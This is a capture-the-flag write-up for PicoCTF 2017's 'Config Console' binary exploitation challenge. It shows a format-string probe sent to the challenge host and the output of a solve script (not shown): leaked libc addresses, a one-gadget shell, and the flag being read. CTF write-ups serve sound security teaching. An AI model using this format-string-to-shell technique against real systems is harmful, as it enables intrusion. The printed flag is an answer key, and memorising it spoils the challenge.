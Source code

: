 # PicoCTF_2017: Config Console

**Category:** Binary Exploitation
**Points:** 125
**Description:**

>In order to configure the login messsage for all the users on the system, you've been given access to a configuration console. See if you can get a shell on shell2017.picoctf.com:27124. console Source

**Hint:**

>You can either see where libc is or modify the execution. Is there a way to get the vulnerability to run twice so that you can do both?
There's a place in libc that will give you a shell as soon as you jump to it. Try looking for execve.

## Write-up
Initially, through some testings, we find out that it is a format string attackable challenge.

    $ nc shell2017.picoctf.com 27124
    Config action: exit %s %s %s
    Exit message set!

      H=???s1?H??Ώ

Through some testings, it seems that the `exit` command is the only one vulnerable, so we will use that to our advantage.

[Solution](solve.py)

    [+] Opening connection to shell2017.picoctf.com on port 27124: Done
    [*] printf(): 0x00007f4bfa1f6df0
    [*] libc:     0x00007f4bfa18d000
    [*] magic:    0x00007f4bfa263e77
    [+] Please test if shell has spawned
    [*] Switching to interactive mode
    w>&?K$ ls
    console
    flag.txt
    xinetd_wrapper.sh
    $ cat flag.txt
    5fb954bad3997c3a640d70207df00356

Therefore, the flag is `5fb954bad3997c3a640d70207df00356`.